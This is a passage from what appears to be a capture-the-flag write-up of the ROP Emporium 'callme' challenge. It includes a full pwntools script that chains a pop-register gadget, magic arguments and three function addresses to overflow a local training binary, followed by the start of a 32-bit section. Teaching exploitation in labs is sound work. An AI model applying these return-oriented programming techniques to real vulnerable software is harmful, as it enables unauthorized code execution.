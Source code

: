 I'll use the pop rdi; pop rsi; pop rdx; ret;

Now you have all to make the exploit, it should be padding + gadget + arg1 + arg2 + arg3 + callme one address + gadget + arg1 + arg2 + arg3 + callme two address + gadget + arg1 + arg2 + arg3 + callme three address


```python
from pwn import *

p = process("./callme")

padding = b'a'*40

callme_one_addr = p64(0x00400720)
callme_two_addr = p64(0x00400740)
callme_three_addr = p64(0x004006f0)

gadget = p64(0x000000000040093c)

payload = padding
payload += gadget
payload += p64(0x0DEADBEEFDEADBEEF)
payload += p64(0x0CAFEBABECAFEBABE)
payload += p64(0x0D00DF00DD00DF00D)
payload += callme_one_addr
payload += gadget
payload += p64(0x0DEADBEEFDEADBEEF)
payload += p64(0x0CAFEBABECAFEBABE)
payload += p64(0x0D00DF00DD00DF00D)
payload += callme_two_addr
payload += gadget
payload += p64(0x0DEADBEEFDEADBEEF)
payload += p64(0x0CAFEBABECAFEBABE)
payload += p64(0x0D00DF00DD00DF00D)
payload += callme_three_addr


p.sendline(payload)
p.interactive()
```

<br/>

## 32 bits

Now there are more files

```bash
$ ls
callme32  callme32.zip  encrypted_flag.dat  key1.dat  key2.dat  libcallme32.so
```

<br/>
